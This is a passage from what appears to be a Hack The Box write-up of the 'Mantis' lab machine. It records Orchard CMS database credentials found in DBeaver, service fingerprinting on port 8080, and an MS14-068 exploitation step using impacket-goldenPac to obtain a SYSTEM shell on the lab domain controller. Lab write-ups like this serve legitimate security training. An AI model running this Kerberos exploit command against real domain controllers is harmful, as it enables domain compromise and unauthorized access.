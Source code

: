 - I use Dbeaver
- Once loading the database and authenticating I take a look at the database orcharddb
- There is a table blog_Orchard_UserPartRecord
- Has an entry
	- James
		- email: james@htb.local
		- Password: `J@m3s_P@ssW0rd!`

### 8080/tcp
- Software
	- ASP_NET 4.0.30319
	- MVC5.2
	- Microsoft IIS 7.5 
- Appears to be [Orchard CMS](https://orchardcore.net/)
- Using `admin:@dm!n_P@ssW0rd!` credentials


## Exploitation
This machine is vulnerable to MS14-068. There are two exploits that would work:
- [PyKek](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek)
- impacket-goldenPac
I used impacket-goldenPac which drops you right into a SYSTEM shell

```bash
impacket-goldenPac -dc-ip 10.10.10.52 'htb.local/james:J@m3s_P@ssW0rd!@mantis.htb.local'
```